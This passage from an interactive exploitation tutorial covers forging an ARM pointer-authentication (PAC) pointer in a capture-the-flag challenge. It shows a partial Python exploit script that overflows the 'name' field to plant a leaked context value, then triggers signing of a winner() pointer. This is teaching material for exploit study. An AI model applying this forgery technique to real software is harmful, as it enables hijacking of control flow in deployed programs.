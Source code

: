Click to enable interactive challenge

With the `context` value and target pointer (`winner()`) known, we will modify our exploit script to forge an authenticated pointer using `sign_contract()`.

We will abuse the same buffer overflow from our earlier exploit, but instead of simply smashing the saved LR, we will first craft a payload that corrupts the `date` field of the contract with the `context` value we dumped:

```
import interact
import struct

# Pack integer 'n' into a 8-Byte representation
def p64(n):
    return struct.pack('Q', n)

winner_address = p64(0x400b04)
stack_context  = # TODO: follow the instructions!

# craft a payload to forge a pointer
forge_payload  = winner_address
forge_payload += "\x00" * 24
forge_payload += stack_context

# 'run' the challenge
p = interact.Process()

# Choose to work on the contract, then send in our payload
print("Working on contract...")
p.readuntil("4. Quit")
p.sendline("1")

# send arbitrary contract 'text'
p.readuntil("contract:")
p.sendline("A"*8)

# overflow the 'name' field to set the contract 'date'
print("Overflowing name...")
p.readuntil("name:")
p.sendline(forge_payload)

# trigger the PAC forgery by 'finalizing' the contract
print("Forging pointer...")
p.readuntil("4. Quit")
p.sendline("3")
p.readuntil("continue")
p.send('\n')

# ...


```
